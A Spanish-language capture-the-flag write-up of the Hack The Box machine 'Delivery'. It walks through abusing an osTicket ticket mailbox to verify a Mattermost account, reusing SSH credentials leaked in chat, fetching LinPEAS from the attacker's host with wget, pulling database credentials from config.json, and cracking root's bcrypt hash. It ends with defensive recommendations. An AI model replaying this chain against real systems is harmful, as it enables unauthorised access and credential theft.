# Delivery — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Linux
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · osTicket (Support Center) · Mattermost · Verificación de email vía ticket de soporte · Filtración de credenciales en chat interno · LinPEAS · Config de Mattermost (`config.json`) · MySQL · Hashcat (regla `best66`) + John the Ripper → root

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración web — osTicket y Mattermost](#2-enumeración-web--osticket-y-mattermost)
3. [Acceso inicial — el email del ticket como cuenta de Mattermost](#3-acceso-inicial--el-email-del-ticket-como-cuenta-de-mattermost)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comprobamos la disponibilidad del host:

```bash
ping -c 1 10.129.69.11
```


TTL de **63** → sistema **Linux**.

Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.69.11 -oN AllPorts
```



Con ayuda de una herramienta propia que resume la salida de Nmap:

```bash
enum-nmap AllPorts
```



Tres puertos abiertos: **22** (ssh), **80** (http) y **8065** (un puerto no estándar). Escaneo de versión:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,80,8065 -oN Ports 10.129.69.11
```



| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 22 | OpenSSH 7.9p1 (Debian) | — |
| 80 | nginx 1.14.2 | Título "Welcome" |
| 8065 | Golang `net/http` server | Cabeceras propias de **Mattermost** (`X-Version-Id`, política CSP apuntando a `cdn.rudderlabs.com`) |

> 💡 El puerto 8065 con un servidor HTTP escrito en Go y esas cabeceras concretas es la firma característica de **Mattermost**, una plataforma de chat de equipo (alternativa self-hosted a Slack).

## 2. Enumeración web — osTicket y Mattermost

La web del puerto 80 es una landing simple que enlaza a un **HELPDESK**:


Ese enlace apunta a un vhost:


Añadimos ambos dominios a `/etc/hosts`:

```
10.129.69.11    delivery.htb helpdesk.delivery.htb
```


`helpdesk.delivery.htb` es un **osTicket** (sistema de tickets de soporte de código abierto), y `delivery.htb:8065` es el login de **Mattermost**:




> 💡 Dos aplicaciones aparentemente independientes, pero que van a terminar conectadas entre sí de una forma poco evidente.

## 3. Acceso inicial — el email del ticket como cuenta de Mattermost

Abrimos un ticket de prueba en el osTicket:


El sistema confirma la creación y nos da un **número de ticket** junto con una dirección de correo asociada, con el formato `<id_ticket>@delivery.htb`:


> 💡 osTicket permite añadir información a un ticket **enviando un correo** a esa dirección — es decir, cualquier email recibido en `<id>@delivery.htb` se añade automáticamente al hilo del ticket correspondiente. En la práctica, esa dirección se comporta como un buzón de correo que **nosotros mismos podemos leer**, sin necesidad de controlar un servidor de correo real.

Con el número de ticket, podemos consultar su estado sin necesidad de una cuenta:




Ahora, en **Mattermost**, creamos una cuenta nueva usando precisamente esa dirección de correo del ticket como email de registro:



Mattermost exige verificar el correo antes de dejarnos entrar:


Como el correo de verificación se envía a `<id_ticket>@delivery.htb`, y esa dirección reenvía cualquier mensaje al hilo del ticket, **el propio osTicket nos entrega el enlace de verificación** sin que tengamos acceso a ningún servidor de correo real:


> 💡 Esta es la vulnerabilidad central de la máquina: un sistema de tickets que reenvía correo a un buzón "propio" del ticket, combinado con un segundo servicio (Mattermost) que permite registrarse con **cualquier** dirección de correo sin comprobar previamente que le pertenece al usuario, permite verificar una cuenta usando una dirección que en realidad no controlamos en absoluto — solo hace falta ser dueño del ticket correspondiente en el primer sistema.

Al visitar el enlace, la cuenta queda verificada y podemos iniciar sesión:


## 4. Obtención de shell

Ya dentro de Mattermost, en el canal **Internal** hay una conversación entre desarrolladores donde `root` comparte credenciales del servidor y, además, avisa (sin darse cuenta de lo peligroso que es el aviso en sí) de un patrón de contraseñas reutilizado:


```
@developers Please update theme to the OSTicket before we go live. Credentials to the server are mailderiverer:Youve_G0t_Mail!
Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

> 💡 Dos filtraciones en un mismo mensaje: unas credenciales SSH directas (`mailderiverer:Youve_G0t_Mail!`) y, más adelante, una pista explícita sobre el patrón de contraseñas del resto del equipo (variaciones de `PleaseSubscribe!`) — información que se aprovechará más adelante para la escalada a root.

Con esas credenciales, nos conectamos por SSH:

```bash
ssh mailderiverer@10.129.69.11
```


Acceso confirmado en el host **Delivery**.

```bash
ls -la
```



Confirmamos la existencia de `user.txt` en el home de `mailderiverer` — la primera flag.

### Escalada de privilegios

Servimos **LinPEAS** desde nuestra máquina atacante:

```bash
python3 -m http.server 8080
```


Lo descargamos y preparamos en la víctima:

```bash
wget http://10.10.15.31:8080/linpeas.sh
chmod +x linpeas.sh
```



Lo ejecutamos guardando la salida completa en un fichero, además de verla en pantalla:

```bash
./linpeas.sh -q | tee output.txt
```


> 💡 `-q` (*quiet*) reduce el ruido visual de LinPEAS (menos colores/cabeceras decorativas), y `tee` permite ver la salida en tiempo real **y** guardarla en `output.txt` al mismo tiempo, en vez de tener que elegir entre una cosa u otra.

Entre los hallazgos, LinPEAS señala repetidamente la ruta `/opt/mattermost` como interesante:

```bash
cd /opt/mattermost
ls
```


Revisamos su fichero de configuración:

```bash
cat config/config.json
```



Dentro, la sección `SqlSettings` contiene la cadena de conexión a la base de datos, con credenciales en texto plano:



```
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8..."
```

Nos conectamos a MySQL con esas credenciales:

```bash
mysql -u mmuser -p
```


```sql
show databases;
use mattermost;
show tables;
```


Entre las tablas, `Users` contiene los hashes de contraseña de todas las cuentas de Mattermost:

```sql
select * from Users;
```


Localizamos la fila del usuario **`root`** (`root@delivery.htb`) y copiamos su hash bcrypt (`$2a$10$...`).

### Crackeando el hash de root con la pista del chat

Recordando la pista dejada en el canal de Mattermost, creamos un fichero base con la palabra sugerida:

```bash
echo 'PleaseSubscribe!' > wordlistbase.txt
```


Y generamos variaciones de esa palabra aplicando una **regla de Hashcat** (`best66`, un conjunto de transformaciones típicas: mayúsculas, sufijos numéricos, inversión de caracteres, etc.) sin necesidad de crackear nada todavía — solo para expandir el diccionario:

```bash
hashcat --stdout -r /usr/share/hashcat/rules/best66.rule wordlistbase.txt > wordlist.txt
```


```bash
cat wordlist.txt
```



> 💡 `hashcat --stdout` (sin especificar `-m`/modo de hash ni el propio hash a crackear) se usa aquí únicamente como **generador de wordlists**: aplica la regla a la palabra base y escribe todas las variantes resultantes por la salida estándar, sin necesidad de tener el hash delante todavía.

Guardamos el hash de `root` en un fichero:



Y lo atacamos con **John the Ripper**, usando el diccionario recién generado:

```bash
john --wordlist=wordlist.txt hash
```


La contraseña cae:


```
PleaseSubscribe!21
```

Con ella, cambiamos de usuario:

```bash
su root
whoami
```


`whoami` confirma acceso como **root**.

## 5. Post-explotación y flags

Con shell de root confirmada, el compromiso total del sistema queda acreditado. Las capturas disponibles muestran la existencia de `user.txt` pero no la lectura explícita de su contenido ni la de `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Verificación de propiedad de correo basada en un buzón "prestado" por otro sistema (ticket de osTicket) | osTicket + Mattermost | Permite crear y verificar una cuenta usando una dirección de correo que en realidad no se controla, saltándose el propósito de la verificación de email |
| Credenciales SSH compartidas en texto plano en un chat de equipo | Canal Internal de Mattermost | Cualquiera con acceso al chat obtiene acceso directo al servidor |
| Credenciales de base de datos en texto plano en el fichero de configuración de la aplicación | `/opt/mattermost/config/config.json` | Acceso completo a la base de datos, incluidos los hashes de todos los usuarios |
| Patrón de contraseñas reutilizado y anunciado (irónicamente) como "a evitar" en el propio chat de la empresa | Contraseña de `root` (variante de `PleaseSubscribe!`) | Reduce drásticamente el espacio de búsqueda para un ataque de diccionario dirigido |

## Recomendaciones defensivas

- No permitir que un sistema de tickets reenvíe correo a un buzón cuyo contenido pueda ser leído por el propio solicitante del ticket, y no usar esas direcciones para verificar identidad en otros servicios.
- Exigir verificación real de propiedad del correo (por ejemplo, dominios corporativos controlados, no direcciones "buzón por ticket").
- No compartir credenciales de servidores en canales de chat, ni siquiera internos — usar un gestor de secretos.
- No almacenar contraseñas de bases de datos en texto plano en ficheros de configuración accesibles por el usuario de la aplicación; usar variables de entorno protegidas o un gestor de secretos.
- No reutilizar patrones de contraseña predecibles entre cuentas, y menos aún advertir del patrón exacto en un canal accesible.
- Auditar periódicamente qué información sensible circula por canales de comunicación interna (chats, tickets, correos).

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
